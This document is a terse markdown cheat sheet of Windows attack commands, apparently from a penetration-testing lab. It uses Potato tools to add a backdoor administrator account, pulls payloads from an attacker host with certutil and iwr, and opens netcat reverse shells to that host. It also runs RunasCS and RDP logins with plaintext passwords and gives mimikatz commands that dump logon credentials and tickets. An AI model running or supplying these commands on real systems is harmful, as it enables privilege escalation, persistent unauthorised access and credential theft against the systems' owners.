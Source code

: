 ```
.\SigmaPotato.exe "net user cyb0rg 12345 /add"
.\SigmaPotato.exe "net localgroup Administrators cyb0rg /add"
```

## SweetPotato

```
certutil -split -urlcache -f http://192.168.45.175/potato/SweetPotato.exe SweetPotato.exe
.\SweetPotato.exe -t * -p "nc.exe" -a "192.168.45.175 80 -e cmd.exe"
```

## GodPotato

```
certutil -split -urlcache -f http://192.168.45.175/potato/GodPotato-NET4.exe GodPotato-NET4.exe
.\GodPotato-NET4.exe -cmd ".\nc.exe 192.168.45.175 80 -e cmd.exe"
```



## RunasCS

```
.\RunasCS.exe 'damon' 'i6yuT6tym@' '.\nc.exe 192.168.45.175 80 -e powershell.exe'
```





```
xfreerdp /u:cyb0rg /p:'12345' /v:192.168.244.220

xfreerdp /u:moss /p:'work6potence6PLASMA6flint7' /v:192.168.244.221

steve (password securityIsNotAnOption++++++) 
Current.exe

icacls "C:\Users\moss\Searches\"

iwr -uri http://192.168.45.161/potato/SigmaPotato.exe -OutFile 'SigmaPotato.exe'
```



## mimikatz

```
certutil -split -urlcache -f http://192.168.45.175/mimikatz/x64/mimikatz.exe mimikatz.exe

privilege::debug
sekurlsa::logonpasswords
sekurlsa::wdigest
sekurlsa::tickets
```
